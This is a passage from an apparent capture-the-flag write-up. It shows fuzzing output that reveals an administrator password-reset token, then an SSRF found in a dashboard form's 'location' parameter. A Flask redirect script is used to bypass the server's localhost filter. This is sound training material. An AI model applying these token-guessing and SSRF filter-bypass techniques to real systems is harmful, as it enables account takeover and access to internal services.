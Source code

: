 ```console
 :: Matcher          : Response status: all
 :: Filter           : Regexp: Invalid token
________________________________________________

fbf8a350e9f8348752f8c48d2500e7703ebc945c [Status: 200, Size: 1627, Words: 665, Lines: 54, Duration: 653ms]
:: Progress: [100/100] :: Job [1/1] :: 108 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```
{: .wrap }

Using the found token, we can reset the password for the `administrator` user with a request to `http://10.10.125.37:8080/password_reset?token=fbf8a350e9f8348752f8c48d2500e7703ebc945c` endpoint.

![Web Server Successful Password Reset](web_8080_successful_password_reset.webp){: width="800" height="400" }

After logging in with the new password at the `/administrator` endpoint, we get the third flag in `/dashboard`.

![Web Server Dashboard](web_8080_dashboard.webp){: width="800" height="400" }

## Fourth Flag

On the `/dashaboard` endpoint, testing the form. Upon us suplying a value with the `location` parameter on a `POST` request, the server returns a file called `file.txt`.

After testing some directory traversal payloads to read local files and failing, testing it by giving an URL.

This works as the server makes a request and sends us the response back.

![Web Server Dashboard SSRF Payload](web_8080_ssrf_payload.webp){: width="800" height="400" }

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.125.37 - - [30/Mar/2024 00:42:16] "GET / HTTP/1.1" 200 -
```

Now, using this `SSRF` vulnerability, we can try to reach out to port 80 from `localhost`, since we are getting forbidden by accessing it directly ourselves.

Attempting to access `localhost` with different payloads, there seems to be some filter.

![Web Server Dashboard SSRF Payload 127.0.0.1 Fail](web_8080_ssrf_127-0-0-1_fail.webp){: width="800" height="400" }
![Web Server Dashboard SSRF Payload Localhost Fail](web_8080_ssrf_localhost_fail.webp){: width="800" height="400" }
![Web Server Dashboard SSRF Payload 0.0.0.0 Fail](web_8080_ssrf_0-0-0-0_fail.webp){: width="800" height="400" }

We can use redirection to bypass the filter by running a webserver like this using `flask`.

```python
from flask import Flask, redirect
app = Flask(__name__)	

@app.route('/<path:path>')	
def index(path):
	return redirect(f'http://127.0.0.1/{path}', code=301)
	
if __name__ == "__main__":	
	app.run(host="0.0.0.0", port=80)
```
{: file="redirect.py"}
